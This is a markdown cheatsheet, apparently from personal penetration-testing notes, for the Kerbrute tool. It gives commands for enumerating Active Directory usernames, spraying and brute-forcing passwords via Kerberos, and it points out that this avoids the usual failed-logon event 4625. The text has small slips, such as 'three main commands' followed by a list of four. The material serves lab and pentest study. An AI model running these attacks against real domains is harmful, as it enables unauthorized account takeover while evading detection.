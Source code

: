 # Kerbrute Cheatsheet
 For more information on the mechanics of Kerberos  [[Active-Directory-Kerberos-Authentication-Defined]] and [[Attacking-Kerberos]].
 
Kerbrute go install method `go install github.com/ropnop/kerbrute@latest`  
[Kerbrute precompiled](https://github.com/ropnop/kerbrute/releases)

Kerbrute has three main commands:

-   **bruteuser** - Bruteforce a single user's password from a wordlist
-   **bruteforce** - Read username:password combos from a file or stdin and test them
-   **passwordspray** - Test a single password against a list of users
-   **userenum** - Enumerate valid domain usernames via Kerberos
`kerbrute userenum --dc CONTROLLER.local -d CONTROLLER.local /path/to/wordlist/usernames.txt`


Bruteforcing Windows passwords with Kerberos is much faster than any other approach and potentially stealthier since pre-authentication failures do not trigger that  "traditional" An account failed to log on event 4625. With Kerberos, you can validate  # a username or test a login by only sending one UDP frame to the KDC (Domain Controller) 

```bash
# User enum (valid/invalid) 
./kerbrute_linux_amd64 userenum  -dc dc-domain -d lab.ropnop.com usernames.txt  
# Password spraying 
./kerbrute_linux_amd64 passwordspray -d lab.ropnop.com domain_users.txt Password123  # Brute force one user (take care of policy!) 
./kerbrute_linux_amd64 bruteuser -d lab.ropnop.com passwords.lst thoffman  
# General bruteforce (from username:password wordlist or from stdin) 
./kerbrute -d lab.ropnop.com bruteforce -
```


If issues with kerberos trying syncing time to KDC host
```bash
sudo apt install ntpdate
sudo ntpdate $dc_ip
```
[Alh4zr3d's HTB search stream](https://www.youtube.com/watch?v=OEu3sXFUCP0)


## References

[Haak9](https://cheatsheet.haax.fr/windows-systems/exploitation/kerberos/)